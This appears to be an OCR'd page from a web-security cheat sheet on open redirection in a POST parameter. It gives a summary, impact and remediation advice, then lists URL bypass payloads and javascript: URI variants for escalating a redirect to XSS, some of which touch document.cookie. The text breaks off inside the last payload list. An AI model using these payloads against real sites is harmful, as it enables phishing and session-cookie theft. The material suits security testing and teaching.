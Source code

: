 - ****Open Redirection in the POST method****
    
    - **Summary**
        
        <aside> 🐞 Open Redirection vulnerability in a POST parameter. Open redirect occurs when a web page is being redirected to another URL in another domain via a user-controlled input.
        
        </aside>
        
    - **Impact**
        
        <aside> 🐞 Because the vulnerability can be only exploited via POST requests, its impact is very limited and it cannot be directly used for common Open Redirect attacks such as phishing.
        
        </aside>
        
    - **Remediation**
        
        <aside> 🐞 **Remediation**
        
        - If you definitely need dynamic URLs, use whitelisting. Make a list of valid, accepted URLs and do not accept other URLs.
        - Where possible, do not use users' input for URLs.
        - Ensure that you only accept URLs those are located on the trusted domains. </aside>
- **Bypasses Payloads**
    
    ```bash
    https://allow_domain.hahwul.com
    <https://allow_domain@hahwul.com>
    <https://www.hahwul.com#allow_domain>
    <https://www.hahwul.com?allow_domain>
    <https://www.hahwul.com>\\allow_domain
    <https://www.hahwul.com>&allow_domain
    http:///////////www.hahwul.com
    http:\\\\www.hahwul.com
    http:\\/\\/www.hahwul.com
    ```
    
- **Open Redirect to XSS**
    
    ```jsx
    javascript:alert(1)
    java%00script: 
    java%0Ascript: 
    java&tab;script:
    java%0Ascript:al%0Aert()
    java%0d%0ascript%0d%0a:alert(0)
    javascript://%250Aalert(1)
    javascript://%250Aalert(1)//?1
    javascript://%250A1?alert(1):0
    %09Jav%09ascript:alert(document.domain)
    javascript://%250Alert(document.location=document.cookie)
    /%09/javascript:alert(1);
    /%09/javascript:alert(1)
    //%5cjavascript:alert(1);
    //%5cjavascript:alert(1)
    /%5cjavascript:alert(1);
    /%5cjavascript:alert(1)
    javascript://%0aalert(1)
    <>javascript:alert(1);
    //javascript:alert(1);
    //javascript:alert(1)
    /javascript:alert(1);
    /javascript:alert(1)
    \\j\\av\\a\\s\\cr\\i\\pt\\:\\a\\l\\ert\\(1\\)
    javascript:alert(1);
    javascript:alert(1)
    javascripT://anything%0D%0A%0D%0Awindow.alert(document.cookie)
    javascript:confirm(1)